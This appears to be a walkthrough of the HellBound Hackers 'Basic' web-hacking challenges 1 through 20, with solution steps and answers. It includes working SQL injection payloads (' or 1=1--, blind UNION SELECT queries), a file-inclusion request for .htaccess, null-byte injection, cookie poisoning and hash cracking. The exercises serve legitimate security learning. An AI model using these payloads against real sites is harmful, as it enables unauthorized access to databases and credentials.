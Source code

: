 ## Basic 1
Similiar to HTS 1, looking in the source reveals the following comment: `<!-- When you pet me, I purr. -->` From there, the solution is pretty obvious.

## Basic 2
For this challenge, we are asked to find the source of an iframe - lucky for us, iframes have a "src" element that lables their origin. If you inspect the element, we find the following code:
`<iframe border="0" height="250" width="500" align="center" name="content" src="../basic1/b2/index.php" frameborder="0" scrolling="yes"></iframe>`

## Basic 3
In a nice break, this challenge says exactly what it is looking for:`Wrong user_agent, bwh3_user_agent wasn't found` Easiest way to tackle this is to download a user-agent switching extension and set your user agent as requested.

## Basic 4
This challenge requires a bit of guess-work - we know we are looking for a htpasswd file, but that it is not in basic4's directory. First thought is to maybe scan in either direction: basic3 returns a 404, but https://www.hellboundhackers.org/challenges/basic5/htpasswd.php gives us our challenge's password.

## Basic 5
I've read the introduction like six fucking times and have no fucking idea what it is trying to say. It's something with a wildcard. Remember the username is an email address. Just fuck this challenge, here is the answer I got after a lot of trial and error:
```
*@*:*
```

## Basic 6
First we need to find the location of these files - I used DirBuster but any url fuzzer will work. It should find a logs/ directory with logs.txt and track_logs.php.

For the commands, make sure you place a space between $ and the actually command. In addition, use a+x for chmod, not the number representation. For the rm commands, -f is not required.

## Basic 7
Looking at our cookies, we see we have two cookies: username = sam, and password = jillisdead. According to the challenge, "he decrypted it from ASCII encryption." I'm not sure what ASCII encrpytion is, but I guessed it meant we needed to change our username cookie. I initially tried converting 'sam' to hex, but it ends up being binary that is the correct encryption.

Once we get past that, the password we can break with a simple SQL injection:
```
' or 1=1--
```

## Basic 8
Entering a fake password reveals a nice clue:
```
SQL Query Error: SELECT * FROM family_db WHERE password='asd' 
```

Looking at the source reveals another helpful hint:
```
<!-- ?sql_query -->
```

Worth a shot to see if secure_php is accepting this as an argument we can post:
```
/secure-area.php?sql_query=SELECT * FROM family_db
```

## Basic 9
```
<!-- The Admin also said something about null or something like that, and he made a special script that it cannot be injected by the url. but i don't know what he is talking about (why dont you find out)-->
```

Key to this is using a poisoned null byte (%00, which causes badly-coded php to drop the rest of the string). The page you are delivered to has the username and password in the source.

## Basic 10
Proxy based problem. Going to the blocked page will reveal the requested range in the comments.

## Basic 11
Simply create a user-agent string that contains the string "HellBoundHackersOS" to pass this challenge.

## Basic 12
We can abuse the file-inclusion exploit. Looking at the URL:
```
index.php?page=challenges.php
```

Since we can guess there is an .htaccess file in the protected folder:
```
index.php?page=protected/.htaccess
```

This will give you a DES hash that you can crack with John the Ripper. Make sure you download a word-list and don't brute-force it.

## Basic 13
Simply change the value of Frank's entry to George. Simple with Chrome.

## Basic 14
The password for this is revealed in the source code.

## Basic 15
The hint text should give a pretty clear idea - look at robots.txt to see where our hidden file is.

## Basic 16
Well let's try our tried and true SQL injection:
```
' or 1=1--
```

## Basic 17
A java applet this time to vary things up. Download basic17.class and use a java decompiler to view its source:
```
	public basic17()
    {
        file4 = "baysick-seventeen.complete.php?pass=";
        inputLine = new TextField(15);
        file2 = "test";
        add(inputLine);
        inputLine.addActionListener(this);
        file2 = "challenges";
    }

    public void actionPerformed(ActionEvent actionevent)
    {
        String s = inputLine.getText();
        if(s.equals("ifYOU'REhereYOU'REelite"))
        {
            URL url = null;
            String s1 = "http://www.hellboundhackers.org/";
            String s2 = "basic17";
            try
            {
                url = new URL(getDocumentBase(), s1 + "/" + file2 + "/" + s2 + "/" + file4 + new String("elite"));
            }
            catch(MalformedURLException malformedurlexception) { }
            getAppletContext().showDocument(url);
        } else
        {
            inputLine.setText("not yet");
        }
    }
```

Since this is Java, basic17 will be called first as the constructor, rendering the following values that we care about:
```
    //file4 = baysick-seventeen.complete.php?pass=
    //file2 = challenges
```

From here, it is simple enough to go through the url and manually insert the correct values:
```
	//http://www.hellboundhackers.org/challenges/basic17/baysick-seventeen.complete.php?pass=elite
```

## Basic 18
This is a blind sql injection based problem. This can be verified by doing:
```
?id=1 AND 1=1-- (will return results)
?id=1 AND 1=2-- (won't return results)
```

Normally you use blind sql to union different tables to gain insight into their information. Here it just wants you to select everything from the `Articles` table. To do this, first find the amount of columns by using `ORDER BY` until you get an error:
```
https://www.hellboundhackers.org/challenges/basic18/index.php?id=1 ORDER BY 5--
```

Then use the amount of columns to union the articles table against itself. NULLs are used as placeholders since the challenge does not care:
```
https://www.hellboundhackers.org/challenges/basic18/index.php?id=1%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,NULL%20FROM%20Articles
```

## Basic 19
Use Burp or another tool to view the headers set when visiting the page. One header will reveal the encryption method and the other will reveal the password.

## Basic 20
The code reveals that it is using a cookie to determine the user:
```
void(document.cookie="whoami=fire");
```

Set the cookie to `admin` and you will see a different error message. It gives a hint that it wants you to poison the cookie with some sql stuff - throw in the classic ' OR 1=1-- to the cookie to pass the challenge.

